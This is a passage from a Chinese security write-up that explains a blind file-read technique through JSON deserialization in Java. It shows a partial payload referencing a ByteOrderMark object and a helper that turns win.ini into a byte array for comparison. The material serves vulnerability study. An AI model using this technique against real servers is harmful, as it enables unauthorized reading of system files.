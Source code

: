 ```json
    ]
  },
  "address" : {"$ref":"$.abc.BOM"}
}
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-731a3f9bcb143ab746c73532da643430bd3327d1.png)

> 它会拿`win.ini`的内容转成`int`数组，然后拿`ByteOrderMark`里的`bytes`挨个字节遍历去比对，如果遍历过程有比对错误的`getBom`就会返回一个`null`，如果遍历结束，没有比对错误那就会返回一个`ByteOrderMark`对象。所以这里文件读取成功的标志应该是`getBom`返回结果不为`null`。

有点`sql`注入中布尔盲注的味道，哈哈。

附上读取文件内容到字节数组的代码：

```java
import java.io.FileReader;
import java.io.IOException;

public class str2bytes {
    public static String fileToString(String path) throws IOException {
        FileReader reader = new FileReader(path);
        StringBuilder stringBuilder = new StringBuilder();
        char[] buffer = new char[10];
        int size;
        while ((size = reader.read(buffer)) != -1) {
            stringBuilder.append(buffer, 0, size);
        }
        return stringBuilder.toString();
    }

    public static void main(String[] args) throws IOException {
        String str = fileToString("C:\\Windows\\win.ini");
        byte[] byteArray = str.getBytes("UTF-8");
        boolean first = true;
        for (byte b : byteArray) {
            int intValue = b & 0xFF;
            if (first) {
                System.out.print(intValue);
                first = false;
            } else {
                System.out.print(", " + intValue);
            }
        }
    }
}

//59, 32, 102, 111, 114, 32, 49, 54, 45, 98, 105, 116, 32, 97, 112, 112, 32, 115, 117, 112, 112, 111, 114, 116, 13, 10, 91, 102, 111, 110, 116, 115, 93, 13, 10, 91, 101, 120, 116, 101, 110, 115, 105, 111, 110, 115, 93, 13, 10, 91, 109, 99, 105, 32, 101, 120, 116, 101, 110, 115, 105, 111, 110, 115, 93, 13, 10, 91, 102, 105, 108, 101, 115, 93, 13, 10, 91, 77, 97, 105, 108, 93, 13, 10, 77, 65, 80, 73, 61, 49, 13, 10
```
